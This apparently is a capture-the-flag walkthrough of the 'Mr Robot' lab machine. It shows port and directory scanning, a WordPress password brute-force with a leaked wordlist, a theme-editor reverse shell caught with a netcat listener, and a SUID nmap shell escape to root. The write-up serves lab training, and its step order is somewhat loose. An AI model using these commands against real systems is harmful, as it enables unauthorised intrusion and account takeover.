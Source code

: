 ```yaml
---
title : "Mr Robot"
date : 2025-06-15 
layout : post
categories : [THM]
tags : [MrRobot]
Difficulty : Medium
author : jana
---
```


# 🔍 Mr. Robot CTF Walkthrough – A Penetration Testing Report

## 🧠 Objective

This report details the steps taken to compromise the *Mr. Robot* vulnerable machine. The goal is to obtain user and root flags using a combination of web enumeration, password cracking, and local privilege escalation.

---

## 🔎 1. Reconnaissance

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial.txt 10.10.10.100
```

**Results:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.7
```

### 🌐 Web Enumeration

Visited `http://10.10.10.100/` in browser.

- Found a **robot-themed website**.
- `robots.txt` revealed two interesting entries:
  ```
  User-agent: *
  Disallow: /fsocity.dic
  Disallow: /key-1-of-3.txt
  ```

### 🧰 Gobuster

```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```

- Found `/admin`, `/license`, `/images`, etc.
- No login forms, but `/fsocity.dic` is downloadable — appears to be a **dictionary file**.

---

## 🔓 2. Exploitation

### 🧪 Using `fsocity.dic` for WordPress Login Brute-force

Identified that the site uses **WordPress** (`wp-login.php` exists).

Used **wpscan**:

```bash
wpscan --url http://10.10.10.100 --wordlist fsocity.dic --username elliot
```

Successfully logged in as **elliot**.

### 🧬 Reverse Shell

Uploaded a **reverse shell** using WordPress theme editor (modified 404.php).

Set listener:

```bash
nc -lvnp 4444
```

Triggered reverse shell by visiting the modified file in browser.

---

## 🔐 3. Privilege Escalation

Enumerated user and found:

```bash
cat key-1-of-3.txt
```

### 🔍 Local Enumeration

Found SUID binary: `nmap`

```bash
nmap --interactive
> !sh
```

Got root shell via `nmap` interactive mode.

---

## 🏁 4. Flags

```bash
cat /home/robot/key-2-of-3.txt
```

```bash
cat /root/key-3-of-3.txt
```

---

## 📄 Summary

| Phase         | Technique / Tool                  | Result         |
|---------------|-----------------------------------|----------------|
| Recon         | Nmap, Gobuster                    | Identified WordPress |
| Exploitation  | Wpscan, fsocity.dic brute-force   | Gained user shell |
| Priv Esc      | SUID nmap                         | Root shell obtained |
| Flags         | Text files                        | ✅ All 3 flags captured |

---

## 🧠 Lessons Learned

- Always check `robots.txt` — goldmine for hidden files.
- Dictionary files can be reused for brute-force attacks.
- SUID binaries like `nmap`, `vim`, or `less` are classic privilege escalation vectors.

---

## 🧰 Tools Used

- Nmap
- Gobuster
- WPScan
- Netcat
- Burp Suite (for some traffic analysis)

---

## 📎 Tags

`#CTF` `#TryHackMe` `#VulnHub` `#WordPress` `#PrivilegeEscalation` `#Linux` `#Pentesting`

---

> ✍️ *Thanks for reading! If you found this useful, follow me for more walkthroughs and real-world pentest content.*
